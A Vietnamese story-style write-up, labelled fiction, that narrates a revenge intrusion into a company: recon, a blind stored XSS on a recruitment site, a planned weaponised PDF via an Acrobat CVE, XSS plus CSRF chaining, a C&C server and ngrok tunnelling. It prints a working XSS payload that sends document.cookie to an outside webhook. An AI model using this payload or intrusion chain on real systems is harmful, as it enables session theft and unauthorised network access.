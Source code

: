 # Tôi đã chiếm quyền điều hành cả một hệ thống mạng của một công ty X như thế nào.

## Lưu ý mọi nội dung dưới đây chỉ là hư cấu !

Bài viết sẽ đi xây dựng các lối tấn công thực tế các con đường khai thác APT.
Các kỹ thuật lỗ hổng sẽ được in đậm để các bạn có thể research.
cre: VHAE và những giấc mơ ;D

# Chương 1: Mở bài

### Phần 1: Bi kịch bắt đầu.

Chuyện bắt đầu cách đây 1 năm khi tôi là Vũ với công việc là phân tích mã độc. Bi kịch ập đến tôi ngay sau ngày sinh nhật tôi, bố tôi và mẹ tôi đều bị mất việc ở công ty X, công ty đó đã giải thích là do thu nhỏ quy mô kinh doanh nên phải cắt bớt nhân sự. Đêm đó tôi hơi buồn và ngồi research về công ty X và thấy công ty đó vẫn đang trong quá trình phát triển và quy mô cũng lớn nhưng lại chấm dứt hợp đồng với gia đình tôi, tôi dành ra nhiều ngày để nghiên cứu thì phát hiện ra sự thật là do bố mẹ tôi đã biết điều gì đó bí ẩn ở công ty và họ đã sa thải cả hai để giữ bí mật đó. Ngày đó tôi đã thực sự khó hiểu và bắt đầu đi tìm sự thật.

### Phần 2: Bắt tay hành động.

Câu truyện bắt đầu khi tôi liên hệ lại với 2 người bạn ở trường cũ là Hoàng ( Chuyên gia bảo mật website ) và Anh ( Một blackhat ) chúng tôi bắt đầu cuộc tấn công với công ty X và đặt tên nhóm là XTAE.

X - eXploit 
T - Technology 
A - Access 
E - Ethically

st1 : Chúng tôi đã bắt đầu tìm kiếm các thông tin về công ty X bao gồm nhân viên, quản lý, tổng giám đốc, hồ sơ tài chính và các báo cáo liên quan....

st2 : Sau khi đã có thông tin base chúng tôi bắt đầu rà quét thu thập các địa chỉ ip port, web và subdomain tại nhiều nơi như Shodan...

st3 : Chúng tôi phân công nhau tìm kiếm các lỗ hổng trên các thông tin thu thập được hầu hết chỉ là các lỗi dos và client.

Đã 3 ngày trôi qua và webhook của Vũ đã trả về dữ liệu về lỗ hổng XSS của một trang web tuyển dụng của công ty X.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/044db157-83fc-4213-a7c2-a8d532b33fda)



### Phần 3: Manh mối đầu tiên.

Với dữ liệu đổ về từ XSS Hoàng đã chuẩn đoán đây là lỗ hổng blind stored xss với 

payload xss ban đầu của Vũ  : 
```
'"><img src=x onerror='window.location.replace("https://webhook.site/0634543a?data="+document.cookie)'>
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/43e2b79e-58a0-4129-9919-2752f7ffc7a7)

Với dữ liệu đồ về có lẽ ta đã thấy cookie của người dùng, chúng tôi nhanh chóng tiến hành thêm mã cookie xác thực vào trình duyệt để truy cập vào tài khoản kiểm duyệt đó nhưng không có gì xảy ra.
Tại sao ? đó là một câu nói xảy ra trong đầu 3 chúng tôi, liệu có phải các dữ liệu xác thực đã được đính `cờ httponly` ? 

Không trước đó Vũ đã kiểm tra trang web và nó xác thực người dùng qua TOKEN và không có cờ `httponly` vậy tại sao chúng tôi không truy cập được tài khoản đó qua cookie đã thu thập được.

Để làm rõ việc này Hoàng đã xây dựng lại mã khai thác xss để chúng tôi có thể thu thập được nhiều thông tin hơn ngoài việc thu thập cookie bằng document.cookie Hoàng đã thêm một vài trường vào payload cũ của Vũ

```
document.documentElement.outerHTML để thu thập toàn hộ html trang web
window.location.href để thu thập url trang web đang truy cập
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2e8c8f00-d7dd-421e-afa4-058a4665a40c)


Sau khi dữ liệu được trả về chúng tôi đã biết nguyên nhân từ url 172.50.24.21 là một ip private vậy chúng tôi đoán trang web tuyendung.congtyx.com sẽ nhận dữ liệu về một máy chủ và các nhân sự sẽ truy cập vào một webserver nội bộ qua mạng công ty hoặc vpn để duyệt hồ sơ các thành viên. Từ đó cũng lý giải video chúng thôi sử dụng cookie vào trang web tuyển dụng không được vì 2 trang web có chức năng xác thực khác nhau - Điều này thực sự thú vị vì nó sẽ làm tăng tính bảo mật của website và tránh để lộ thông tin ra bên ngoài môi trường internet cơ bản sơ đồ sẽ như sau.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/fb863d78-e281-4454-ab57-44959f0b9512)

Vậy không có quyền truy cập vào private vậy thì chúng tôi lấy thêm được dữ liệu gì từ lỗ hổng này. Kiểm tra mã html thu thập được chúng tôi biết các ứng viên sẽ nộp hồ sơ dạng pdf và nếu được duyệt hồ sơ sẽ được gửi lên cấp trên điều đặc biệt là các đường dẫn này ko preview mà sẽ tải thẳng về máy cá nhân và xem trên đó( tôi đã thử các lỗ hổng File upload vulnerabilities nhưng server chỉ cho lưu file pdf và lưu trong cdn) .Ý tưởng ban đầu của chúng tôi sẽ ghi đè mã html khi nhân sự tải xuống file pdf của tôi thay vì đó là pdf trên webserver thì đó là mội loại virut tôi cài cắm vào, tôi phân chia cho Anh thiết kế `máy chủ c&c` để quản lý các PC mà chúng tôi đã takeover.

1 ngày, 2 ngày, 1 tuần, 2 tuần vẫn chưa thấy phải hồi gì chúng tôi đã có rất nhiều câu hỏi: 

Liệu nhân sự đó không mở file pdf virut của tôi ? 

Các máy tính đã có diệt virut mới và xoá file của tôi ?

Code của tôi không hoạt động ?

Máy chủ cá nhân không cho phép tải các file khác ? 


Trong nhiều ngày chúng tôi đã osint nhiều thông tin về công ty và biết rất nhiều người dùng Adobe Acrobat tôi liền liên hệ cho Anh để tìm hiểu thêm về các lỗ hổng zeroday về một phần mềm này với một dân ngầm như Anh đã cho tôi ngay POC mới nhất về `CVE-2023-26369` tôi tiến hành xây dựng mã khai thác theo cve mà Anh cung cấp cùng lúc đó Hoàng kết hợp lỗi `XSS và CSRF` để tự tiến hành tự động xác nhận kiểm duyệt hồ sơ của tôi lên cấp trên để có thể lây lan được nhiều ngừoi hơn.


### Phần 3: Tia sáng cuối con đường:

Sau nhiều ngày chúng tôi đã thử nhiều cách và bùm có một pc kết nối đến chúng tôi và có chính là nhân viên thungoc.

Chúng tôi tiến hành xây dựng một proxy ngrok cho phép chúng tôi truy cập trang web nội bộ ngoài internet và phân công nhiệm vụ Hoàng sẽ tiến hành tìm kiếm thêm các lỗ hổng trong web nội bộ, tôi và Anh sẽ thực hiện rà soát các dải mạng private và tìm cách khai thác chúng....

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2806ebd9-f64a-4dbf-aa0e-2c873ab0b52b)


hết chương 1:
các keyword : 
- CVE-2023-26369
- XSS 
- CSRF
- Máy chủ c&c
- Ngrok proxy
- osint
- shodan
- File upload vulnerabilities
- cdn
- httponly cookie

Nếu các bạn thích về chủ đề này hay thì mình sẽ làm típ hehe ;()

Bài viết sẽ có nhiều lỗi sai và nhiều chi tiết thiếu sót bạn hãy góp ý bằng cách cmt phía dưới cảm ơn bạn.
